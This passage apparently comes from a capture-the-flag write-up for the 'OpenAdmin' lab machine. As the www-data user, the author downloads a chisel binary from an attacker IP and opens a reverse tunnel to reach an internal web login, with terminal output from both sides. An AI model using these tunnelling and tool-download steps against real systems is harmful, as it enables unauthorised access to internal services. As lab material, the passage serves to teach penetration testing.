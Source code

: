 Knowing this was only accessible locally, I used chisel to port forward.

```sh
www-data@openadmin:/tmp$ wget http://10.10.14.35/chisel_1.7.6_linux_amd64 -O chisel
<tp://10.10.14.35/chisel_1.7.6_linux_amd64 -O chisel
--2022-02-10 23:55:54--  http://10.10.14.35/chisel_1.7.6_linux_amd64
Connecting to 10.10.14.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8339456 (8.0M) [application/octet-stream]
Saving to: 'chisel'

chisel              100%[===================>]   7.95M  3.68MB/s    in 2.2s    

2022-02-10 23:55:56 (3.68 MB/s) - 'chisel' saved [8339456/8339456]

www-data@openadmin:/tmp$ chmod +x chisel
chmod +x chisel
www-data@openadmin:/tmp$ ./chisel client 10.10.14.35:8001 R:8002:127.0.0.1:52846
<isel client 10.10.14.35:8001 R:8002:127.0.0.1:52846
2022/02/10 23:57:15 client: Connecting to ws://10.10.14.35:8001
2022/02/10 23:57:15 client: Connected (Latency 21.198388ms)
```


```sh
kali@kali-[~/tools/tunneling/chisel]$2022/02/10 18:56:35 server: Reverse tunnelling enabled
2022/02/10 18:56:35 server: Fingerprint Ay7gJFLE50uMbuAu9dT/IgfzqQFFLen7wu5qsl0wm+k=
2022/02/10 18:56:35 server: Listening on http://0.0.0.0:8001
2022/02/10 18:57:15 server: session#1: tun: proxy#R:8002=>52846: Listening
```

I now had access to the website, and it showed some login.

![](4.png)
